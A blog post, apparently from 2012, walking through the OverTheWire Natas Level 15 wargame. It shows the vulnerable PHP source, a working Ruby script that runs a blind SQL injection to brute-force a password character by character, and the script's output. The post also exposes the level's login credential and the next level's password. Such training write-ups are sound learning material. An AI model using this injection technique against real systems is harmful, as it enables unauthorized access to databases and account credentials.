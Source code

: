 ```yaml
---
layout: post
title: "OverTheWire Natas Level 15"
date: 2012-11-14T06:29:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - sqlinjection
 - hacking
---
```


Up until now, none of the OverTheWire Natas challenges really gave me that much of an issue. This one however, took me a couple hours to complete. Level 15 is a fun blind sql-injection vulnerability. 

It starts out with a username check dialog, which pretty much only gives you a binary value as to if a username exists or not.

{% img /images/natas15_1.png %}

I looked at the source code, and couldn't see any way to inject some SQL to get it to retrieve the password for me. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas15</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

I did notice though, that it would verify that a row was returned, so I could inject SQL to brute-force the password. Assuming that the password was 32 digits long (like the previous ones), this could take some time however, since the character set was uppercase, lowercase, and digits. That's up to 62 attempts per digit of the password. I started doing this manually to verify that this was a possibility. With the "debug" flag on, you can see the query, and that the first digit of the password is not "b".

{% img /images/natas15_1.png %}

I cycled through manually all the lowercase and upper case letters. Once I got partially through the numbers, I got a successful hit! This means that the password starts with a "3".

{% img /images/natas15_1.png %}

The next step for me, was to automate this process. I decided to write some ruby to accomplish it. This code seems to do the job: 

```
require 'uri'
require 'net/http'

url = URI.parse("http://natas15.natas.labs.overthewire.org/index.php")
http = Net::HTTP.new(url.host, url.port)
chars = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a
password = ""
found = false

# 64 was selected, since the password field is a varchar(64)
# Most likely, since all other passwords were 32 digits long, it'll be that
(1..64).each do |i|
 chars.each do |c| 
  found = false
  request = Net::HTTP::Post.new(url.request_uri)
  request.basic_auth("natas15", "m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV")
  query = 'natas16" AND SUBSTRING(password, ' + i.to_s + ', 1) LIKE BINARY "' + c
  request.set_form_data({"username" => query})
  response = http.request(request)

  if response.body.include?("This user exists")
   password += c
   found = true
   puts "Current pass: #{password}"
   break
  end
 end
 # If no letter/number was found, it's fairly safe to assume it's done
 break if !found
end

```

The output shows: 

```
mandreko$ ruby natas15.rb
Current pass: 3
Current pass: 3V
Current pass: 3Vf
Current pass: 3VfC
Current pass: 3VfCz
Current pass: 3VfCzg
Current pass: 3VfCzga
Current pass: 3VfCzgaW
Current pass: 3VfCzgaWj
Current pass: 3VfCzgaWjE
Current pass: 3VfCzgaWjEA
Current pass: 3VfCzgaWjEAc
Current pass: 3VfCzgaWjEAcm
Current pass: 3VfCzgaWjEAcmC
Current pass: 3VfCzgaWjEAcmCQ
Current pass: 3VfCzgaWjEAcmCQp
Current pass: 3VfCzgaWjEAcmCQph
Current pass: 3VfCzgaWjEAcmCQphi
Current pass: 3VfCzgaWjEAcmCQphiE
Current pass: 3VfCzgaWjEAcmCQphiEP
Current pass: 3VfCzgaWjEAcmCQphiEPo
Current pass: 3VfCzgaWjEAcmCQphiEPoX
Current pass: 3VfCzgaWjEAcmCQphiEPoXi
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9H
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Ht
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htl
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htlm
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmV
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L
```

And there you go, the password for level 16 shows up as the last line before it quits. 

